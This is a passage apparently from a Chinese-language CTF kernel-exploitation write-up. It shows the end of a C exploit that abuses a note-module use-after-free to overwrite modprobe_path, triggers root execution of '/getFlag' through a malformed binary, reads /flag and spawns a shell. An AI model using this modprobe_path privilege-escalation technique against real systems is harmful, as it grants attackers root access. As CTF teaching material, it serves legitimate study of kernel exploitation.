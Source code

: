 ```c
        sleep(2);
        puts(GREEN "Ready to delete note in child process..." CEND);
        dele(0);
        sleep(1);
        puts(GREEN "Ready to open /dev/ptmx in child process..." CEND);
        open("/dev/ptmx", O_RDWR);
        exit(0);
    }else
        edit(0, page);

    add(0x100);
    add(0x100);     // this cache allocates to modprobe_path
    edit(1, "/getFlag");

    system("echo -e '\xff\xff\xff\xff' > /hook");
    system("chmod +x /hook");
    system("/hook");

    sleep(1);
    int flag = open("/flag", O_RDWR);
    if(flag < 0)
        errExit("Failed to open flag file!");
    char flagContent[0x50] = {0};
    read(flag, flagContent, 0x50);
    write(1, flagContent, 0x50);
    system("/bin/sh");	// to prevent kernel panic

    return 0;
}
```

图中的``this is example``就是flag。

![](12.png)

